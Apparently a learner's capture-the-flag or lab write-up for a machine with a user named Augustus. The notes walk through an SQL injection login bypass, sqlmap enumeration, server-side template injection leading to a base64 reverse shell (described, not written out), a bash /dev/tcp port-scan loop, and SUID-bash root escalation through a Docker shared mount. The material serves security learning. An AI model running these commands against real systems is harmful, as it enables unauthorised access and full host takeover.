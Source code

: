 ## Enumeration 
- so I've been messing around this website for a while and trying sql injection techniques i know and nothing has been working.
- When i got frustrated i checked the machine info and it says that it has an sql injection vulnerability so I'm going to have to go through the walkthrough to understand
- I tried looking up Union-Based SQL injections but still

## Answer
- I guess i was overthinking it, you just had to do `admin' or 1=1 #`
- then save the request from burpsuite in a txt file
- And run it through sqlmap `sqlmap -r request.txt --dbs` this will make it list databases it finds
- So we found 2 (main and information_schema)
- when we look further using `sqlmap -r request.txt --tables -D main` we find a users table in the main database
- Then we log into admin account and find a way to get into internal administration subdomain when we click on settings
- There is a way for you to change your name so we input {{7\*7}} and it returns 49 as our name so its vulnerable to SSTI
- When we find that out we can create a reverse shell payload and input it encoded in base64 ( you'll have to figure out how the backend is configured in this case python 3.8.7 and then find a payload that works on python and make it run your command piped into base64 to decode it)
#### Privilege Escalation
- we run ls -la and we get UID 1000 instead of the name of the user Augustus, so we know we are in a docker, a sandbox for the application
- checking mount shows us that its mounted with rw permissions
- we check our ip and its 172.19.0.2, because docker usually assigns the first address to the host
- we can use bash instead of nmap to check open ports `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done`
- we find ssh is open, we log in with the same password we  found earlier for the admin to the agustus user and it works
- the user directory is mounted on the docker, so we can make a file in host and change the persmission in the container
- we copy bash  and we go back to the root in the docker and run `chown root:root bash` and `chmod 4755 bash`
-  now we go back through ssh and we run ./bash -p and we have root